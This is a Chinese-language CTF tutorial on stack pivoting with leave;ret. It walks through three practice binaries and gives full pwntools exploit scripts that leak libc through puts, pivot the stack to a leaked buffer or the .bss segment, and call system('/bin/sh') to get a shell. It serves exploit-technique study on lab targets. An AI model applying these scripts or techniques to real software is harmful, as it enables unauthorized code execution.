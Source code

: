 简绍
栈迁移一般用于溢出字节不够，但至少溢出0x10个字节，也就是用来覆盖rbp及返回地址，一般有两种方向：迁向原来的的栈，迁移到bss段。在学习栈迁移之前，需要了解一下一个汇编指令：leave ret，他的作用可以拆分成两部分：mov rsp rbp  pop rbp。leave ret的作用是用来清空栈的，在主函数最后都会有，但如果用两次会有怎样的效果呢



 ![image-20241231111727752](./../images/image-20241231111727752.png)![image-20241231111750609](./../images/image-20241231111750609.png)

 借用了这篇博主的图片，两次leave ret 会返回到我们所控制的rbp的位置，这里注意，是rbp的位置是我们要覆盖的返回地址，接下来接三道例题讲解栈迁移不同的利用方式

### 例题

可泄露出位置的栈迁移
IDA分析，我们可以看到read函数存在栈溢出，但只能溢出0x10（16）个字节，正好可以覆盖rbp和返回地址，这样我们直接想到栈迁移。第二个printf函数会把buf的位置打印出来，而我们要返回的则是buf后的部分，也就是v2，我们可以用buf的地址+8就是v2的地址

![image-20241231111801889](./../images/image-20241231111801889.png)

 我们把栈迁到v2之后去执行什么呢，这也是栈迁移的重点，我们需要把垃圾数据改成有用的数据，这样我们迁移之后可以去执行我们的rop链，这道题是没有后门的，我们需要运用两次栈迁移，先用libc得到system("\bin\sh")之后去执行

exp:

```python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
p=process("./pwn1")
elf=ELF("./pwn1")
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
def bug():
        gdb.attach(p)
        pause()
rdi=0x0000000000401333
vuln=0x4011FB
leave_ret=0x4012AA
p.recvuntil("your name:")   
pay1=b'a'*8
#bug()
p.send(pay1)
p.recvuntil("0x")
rbp1=int(p.recv(12),16)+8
print(hex(rbp1))
p.recvuntil("more infomation plz:")
pay  =(b'a'*8+p64(rdi)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(vuln)).ljust(0x50,b'\x00')

#前8个a是因为ret会往后迁一位，ljust是补齐0x50个字节不够的用0x00来补充
pay +=p64(rbp1)+p64(leave_ret)
#bug()
p.send(pay)
libc_base=u64(p.recvuntil("\x7f")[-6:].ljust(8,b'\x00'))-libc.sym['puts']
print(hex(libc_base))
system=libc_base+libc.sym['system']
bin_sh=libc_base+libc.search(b"/bin/sh\x00").__next__()
p.recvuntil("your name:")   
pay2=b'a'*8
p.send(pay2)
p.recvuntil("0x")
rbp2=int(p.recv(12),16)+8
print(hex(rbp2))
p.recvuntil("more infomation plz:")
pay  =(b'a'*8+p64(rdi)+p64(bin_sh)+p64(rdi+1)+p64(system)).ljust(0x50,b'\x00')
pay +=p64(rbp2)+p64(leave_ret)
bug()
p.send(pay)
p.interactive()    
```



 打通本地

![image-20241231111936317](./../images/image-20241231111936317.png)

###  迁到bss段的栈迁移

IDA分析，函数很简单，第二次栈溢出也只能溢出0x10个字节，这是例题，比较明显，一般我们需要结合调试去看我们的rop链是否能完全读入，在考虑用不用栈迁移

![image-20241231111952063](./../images/image-20241231111952063.png)

 我们发现s是bss变量，结合第一题，我们在第一次读入有用的rop链，第二次栈迁移到bss段就可以去实现，这道题同样是没有后门的，同样需要利用两次栈迁移

![image-20241231111958334](./../images/image-20241231111958334.png)

 附上脚本：

```python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
p=process("./pwn2")
elf=ELF("./pwn2")
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
def bug():
         gdb.attach(p)
         pause()
rdi=0x00000000004012a3
main=0x401210
bss=0x406060
leave_ret=0x40120E
p.recvuntil("hello")
pay1=p64(rdi)+p64(elf.got['read'])+p64(elf.plt['puts'])+p64(main)
p.send(pay1)
p.recvuntil("say?")
pay2=b'a'*(0x60)+p64(bss)+p64(leave_ret)
bug()
p.send(pay2) 
```



p.interactive()

 但我们会发现这里会卡住，原因是因为我们读入的地方bss-8，具体原因是因为ret会往下推一个栈![image-20241231112010760](./../images/image-20241231112010760.png)

 附上最终脚本：

```python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
p=process("./pwn2")
elf=ELF("./pwn2")
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
def bug():
         gdb.attach(p)
         pause()
rdi=0x00000000004012a3
main=0x401210
bss=0x406060-8
leave_ret=0x40120E
p.recvuntil("hello")
pay1=p64(rdi)+p64(elf.got['read'])+p64(elf.plt['puts'])+p64(main)
p.send(pay1)
p.recvuntil("say?")
pay2=b'a'*(0x60)+p64(bss)+p64(leave_ret)
bug()
p.send(pay2)  
libc_base=u64(p.recvuntil("\x7f")[-6:].ljust(8,b'\x00'))-libc.sym['read']
print(hex(libc_base))
system=libc_base+libc.sym['system']
bin_sh=libc_base+libc.search(b"/bin/sh\x00").__next__()
p.recvuntil("hello")
pay3=p64(rdi)+p64(bin_sh)+p64(rdi+1)+p64(system)
p.send(pay3)
p.recvuntil("say?")
pay  =(p64(rdi)+p64(bin_sh)+p64(rdi+1)+p64(system)).ljust(0x60,b'\x00')
pay +=p64(0x406008-8)+p64(leave_ret)
#bug()
p.send(pay)
p.interactive()
```



 打通![image-20241231112031463](./../images/image-20241231112031463.png)

###  利用read函数的栈溢出

我感觉这一题才是对栈迁移原理的运用最全面的，前边两种方法都有局限性，这种方法局限性不是很大，是一种全新的利用方式

IDA分析，这次前面没有地址的泄露，也没有读入到bss段，那该怎么办呢

![image-20241231112038664](./../images/image-20241231112038664.png)

 讲一下read函数，这是read函数的汇编代码

![image-20241231112044878](./../images/image-20241231112044878.png)

 这个lea汇编指令就是把rbp加上buf的值赋给了rax，第三行再把rax的值赋给rsi作为read函数读入位置的参数，而buf固定为0x50，所以确定读入位置由rbp决定，那我们可以通过pop rbp来控制rbp更改读入位置。

这道题需要利用三次迁移

exp:

``` python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
p=process("./pwn3")
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
elf=ELF("./pwn3")
def bug():
          gdb.attach(p)
          pause()
bss=0x404020+0x700
read=0x4011FF
rdi=0x00000000004012b3
rbp=0x000000000040115d
leave_ret=0x401227
vuln=0x4011DB        
p.recvuntil("just chat with me:")
pay1=b'a'*(0x50)+p64(bss+0x50)+p64(read)

#迁移到bss段，+0x50是因为buf=-0x50
bug()
p.send(pay1)
pause()
pay2 =(p64(rdi)+p64(elf.got['read'])+p64(elf.plt['puts'])+p64(rbp)+p64(bss+0x300+0x50)+p64(read)).ljust(0x50,b'\x00')
pay2+=p64(bss-8)+p64(leave_ret)     

#第二次利用read函数，迁移到bss+0x300的位置
p.send(pay2)
libc_base=u64(p.recvuntil("\x7f")[-6:].ljust(8,b'\x00'))-libc.sym['read']
print(hex(libc_base))
system=libc_base+libc.sym['system']
bin_sh=libc_base+libc.search(b"/bin/sh\x00").__next__()
pay3 =(b'a'*8+p64(rdi)+p64(bin_sh)+p64(rdi+1)+p64(system)).ljust(0x50,b'\x00')

#再次迁移执行system("\bin\sh")
pay3+=p64(bss+0x300)+p64(leave_ret)
pause()
p.send(pay3)

p.interactive()  
```

